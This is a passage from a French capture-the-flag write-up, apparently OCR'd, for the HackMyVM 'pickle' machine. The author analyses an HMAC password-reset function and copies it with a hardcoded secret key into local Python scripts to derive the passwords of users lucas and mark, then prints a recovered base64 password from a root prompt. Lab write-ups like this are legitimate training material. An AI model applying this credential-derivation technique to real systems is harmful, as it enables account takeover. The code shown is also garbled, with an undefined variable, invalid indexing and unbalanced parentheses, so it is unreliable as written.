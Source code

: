 Ensuite, le script chiffre la variable brute avec la clé clé qui est stockée dans la variable hachée.

```python
hashed = hmac.new(key, raw, hashlib.sha1) 
```

Ensuite, il teste si l'argument clé est égal à la variable hachée en hexadécimal.

```python
if request.form["key"] == hashed.hexdigest()
```

Si la clé est égale, elle l'encode en base64, nous pouvons probablement récupérer le mot de passe de l'utilisateur mark et lucas.

```python
return base64.b64encode(hashed.digest().encode("base64").rstrip("\n") 
```

Nous devons faire des tests locaux pour mieux comprendre le système. Je copie complètement la fonction et la colle dans mon fichier python.

```python
import hashlib 
import requests 
import socket 
import base64 
import hmac 
    
key = "dpff43f3p214k31301" 
raw = user["lucas"] + key + socket.gethostbyname(socket.gethostname()) 
hashed = hmac.new(key, raw, hashlib.sha1) 
if(key[hashed.hexdigest()] == hashed): 
    print(base64.b64encode(hashed.digest().encode("base64").rstrip("\n"))) 
```

Et si nous courons, nous voyons que nous avons le mot de passe lucas.

    root@0xEEX75:~/hackmyvm/pickle# python reset.py 
    YTdYYTB1cDFQOTBmeEFwclVXZVBpTCtmakx3PQ== # Luca's password 

Voyons s'il y a un utilisateur autre que lucas dans le système cible.

    lucas@pickle:/opt/project$ ls /home 
    lucas mark 

Il y a bien de la marque, essayons avec la marque pour obtenir le mot de passe.

```python
import hashlib 
import requests 
import socket 
import base64 
import hmac 

key = "dpff43f3p214k31301" 
raw = user["mark"] + key + socket.gethostbyname(socket.gethostname()) 
hashed = hmac.new(key, raw, hashlib.sha1) 
if(key[hashed.hexdigest()] == hashed): 
    print(base64.b64encode(hashed.digest().encode("base64").rstrip("\n"))) 
```
